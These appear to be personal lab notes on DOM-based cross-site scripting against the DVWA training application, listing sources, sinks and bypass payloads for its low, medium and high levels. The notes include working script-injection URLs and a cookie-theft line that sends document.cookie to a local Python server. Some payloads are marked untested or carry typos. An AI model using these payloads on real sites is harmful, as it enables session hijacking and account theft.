




XSS DOM
This attack takes advantage of the Document Object Model(DOM). Manipulating the URL to insert script or change parameters for the attack.
By setting up a python server, http traffic, specifically cookies can be pulled using the document.cookie parameter and be sent to the server using window.location. Input validation will stop this attack.
https://portswigger.net/web-security/cross-site-scripting/dom-based
Source:
dvwa/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>
In this example the source is the (document.cookie) java script property
Useful functions:
\\ document.URL
\\ document.documentURI
\\ document.URLUnencoded
\\ document.baseURI
\\ location
\\ document.cookie
\\ document.referrer
\\ window.name
\\ history.pushState
\\ history.replaceState
\\ localStorage
\\ sessionStorage
\\ IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
\\ Database
Sink:
An example of an HTML sink is document.body.innerHTML because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
eval()

DVWA has 3 settings to show different levels of security. Below are the bypasses for each level.
Low:
http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=%3Cimg%20alt=%3C/noframes%3E%3Cscript%3Ealert(1)%3C/script%3E
Medium:
http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<select><audio src/onerror=alert(document.cookie)>
Importantly the select parameter is used in the source code and will help the validated script break out(?)
This is used to set up a server that will receive the cookie.
python3 -m http.server 1337 (setup server)
http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<select><audio src/onerror= window.location='http://192.168.10.123:1337=cookie/?=' + document.cookie>
This didn’t give us the cookie, will require more work to send cookie to server.



High:
Insert hash end of main url.
192.168.10.123/dvwa/vulnerabilities/xss_d/#?default=<script>alert(document.cookie)</script>
Maybe works»»
192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<template><select><option></template><img scr=1 onerror=alert(1)</select><template>
This one works:
<img src=x onerror=alert(1)>
Resources: